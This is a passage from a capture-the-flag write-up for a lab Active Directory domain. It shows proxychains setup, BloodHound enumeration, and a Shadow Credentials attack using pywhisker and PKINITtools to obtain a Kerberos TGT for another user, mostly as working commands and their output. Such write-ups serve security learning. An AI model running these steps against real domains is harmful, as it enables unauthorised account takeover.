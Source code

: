 Modifying our `proxychains` config to use the **SOCKS** proxy.

```
...
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4         127.0.0.1 9050
socks5 127.0.0.1 1080
```
{: file="/etc/proxychains4.conf" }

We can now run `bloodhound-python` to collect data.

```console
$ proxychains -q bloodhound-python -ns 10.10.39.152 --dns-tcp -u 'Krampus_Debugger' -p 'Ch[REDACTED]4!' --zip -c All -d socmas.corp
```
{: .wrap }

Uploading the collected data to `BloodHound` and checking the rights our users have, we can see that the `Krampus_Debugger` has a `GenericWrite` right over the `Krampus_Shadow` user.

![Bloodhound Genericwrite](bloodhound_genericwrite.webp){: width="1200" height="600" }

We can use this to perform a `Shadow Credentials` attack and get the `NTLM` hash for the `Krampus_Shadow` user.

First, using `pywhisker` to add a `KeyCredential` to the `msDs-KeyCredentialLink` attribute of `Krampus_Shadow`.

```console
$ proxychains -q python3 pywhisker.py -d 'socmas.corp' -u 'Krampus_Debugger' -p 'Ch[REDACTED]4!' --target 'Krampus_Shadow' --action 'add'
[*] Searching for the target account
[*] Target user found: CN=Krampus_Shadow,OU=Devices,OU=FIN,OU=Tier 1,DC=socmas,DC=corp
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 275aaa0b-c9d0-628d-de25-a5a4ab409116
[*] Updating the msDS-KeyCredentialLink attribute of Krampus_Shadow
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: GOLdx7iM.pfx
[*] Must be used with password: GyaSIpAM2mCDZc1nkjaP
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```
{: .wrap }

After that, we can use the `gettgtpkinit.py` tool from the `PKINITtools` along with the certificate and key generated by `pywhisker` to authenticate to the server and obtain a `TGT`.

```console
$ proxychains -q python3 gettgtpkinit.py SOCMAS.CORP/Krampus_Shadow -cert-pfx GOLdx7iM.pfx -pfx-pass GyaSIpAM2mCDZc1nkjaP krampus_shadow.ccache
2024-12-19 12:04:25,152 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-12-19 12:04:25,240 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2024-12-19 12:04:40,647 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-12-19 12:04:40,648 minikerberos INFO     ddfea8610c5e634577a7fbe5352990e1327649bbad61335f180b7df9d4e6c462
INFO:minikerberos:ddfea8610c5e634577a7fbe5352990e1327649bbad61335f180b7df9d4e6c462
2024-12-19 12:04:40,652 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```
{: .wrap }
